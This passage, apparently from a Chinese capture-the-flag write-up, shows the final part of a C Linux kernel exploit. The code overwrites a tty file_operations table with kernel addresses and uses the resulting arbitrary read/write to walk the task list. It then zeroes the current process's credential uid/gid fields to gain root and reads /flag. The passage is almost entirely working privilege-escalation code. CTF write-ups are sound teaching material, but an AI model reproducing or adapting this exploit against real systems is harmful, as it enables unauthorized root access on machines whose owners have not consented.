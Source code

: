 ```
    }

    ftable[0] = kernel_base + 0xffffffff81419300 - 0xffffffff80e00000;//tty_struct ptr
    ftable[3] = kernel_base + 0xffffffff81418e60 - 0xffffffff80e00000;//open
    ftable[4] = kernel_base + 0xffffffff814191a0 - 0xffffffff80e00000;//close
    lseek(fd, 0, SEEK_SET);
    Write(fd, ftable, 0x400);

    LOG("fops is located at: %pn", (void *)fops);
    LOG("kernel base: %pn", (void *)kernel_base);

    pg[3] = heapAddr - 0x800; // memo address

    // enjoy arbitrary read and write
    slave_fd = get_ptmx_slave(tty_fd);

    // read page offset base
    unsigned long cur = init_task, cred;
    unsigned int pid;
    unsigned int this_pid = getpid();
    while(1) {
        pid = read32(cur + PID_OFFSET);
        if (pid == this_pid) {
            cred = read64(cur + CRED_OFFSET);
            LOG("Found current process(pid=%d)'s cred struct %pn", pid, (void *)cred);
            LOG("original uid=%d, gid=%d. now escalating to rootn", read32(cred + 4), read32(cred + 8));
            write64(0x0, cred + 4);
            write64(0x0, cred + 12);
            write64(0x0, cred + 20);
            write64(0x0, cred + 28);
            LOG("now i am uid=%dn", getuid());
            break;
        }
        cur = read64(cur + TASKS_OFFSET) - TASKS_OFFSET;
    }

    char flag[0x100];
    FILE *fp = fopen("/flag", "r");
    if (!fp) {
        perror("fopen");
        exit(-1);
    }
    fgets(flag, sizeof(flag), fp);
    printf("flag: %sn", flag);

    return 0;
}
```

运行效果如下：
